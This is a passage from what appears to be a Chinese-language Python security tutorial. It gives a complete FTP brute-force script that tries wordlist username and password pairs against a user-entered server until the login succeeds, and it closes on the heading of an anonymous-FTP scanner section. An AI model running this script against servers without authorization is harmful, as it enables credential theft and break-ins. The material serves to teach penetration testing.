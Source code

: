 # 使用 ftplib 来暴力破解 FTP 用户凭据

这个库的主要用途之一是检查 FTP 服务器是否容易受到使用字典的暴力攻击。例如，使用这个脚本，我们可以对 FTP 服务器执行使用用户和密码字典的攻击。我们测试所有可能的用户和密码组合，直到找到正确的组合。

当连接时，如果我们得到"`230 Login successful`"字符串作为答复，我们就会知道这个组合是一个好的组合。

你可以在文件名为`ftp_brute_force.py`中找到以下代码：

```py
import ftplib
import sys

def brute_force(ip,users_file,passwords_file):
    try:
        ud=open(users_file,"r")
        pd=open(passwords_file,"r")

        users= ud.readlines()
        passwords= pd.readlines()

        for user in users:
            for password in passwords:
                try:
                    print("[*] Trying to connect")
                    connect=ftplib.FTP(ip)
                    response=connect.login(user.strip(),password.strip())
                    print(response)
                    if "230 Login" in response:
                        print("[*]Sucessful attack")
                        print("User: "+ user + "Password: "+password)
                        sys.exit()
                    else:
                        pass
                except ftplib.error_perm:
                    print("Cant Brute Force with user "+user+ "and password "+password)
                connect.close

    except(KeyboardInterrupt):
         print("Interrupted!")
         sys.exit()

ip=input("Enter FTP SERVER:")
user_file="users.txt"
passwords_file="passwords.txt"
brute_force(ip,user_file,passwords_file)
```

# 使用 Python 构建匿名 FTP 扫描器

我们可以使用`ftplib`模块来构建一个脚本，以确定服务器是否提供匿名登录。
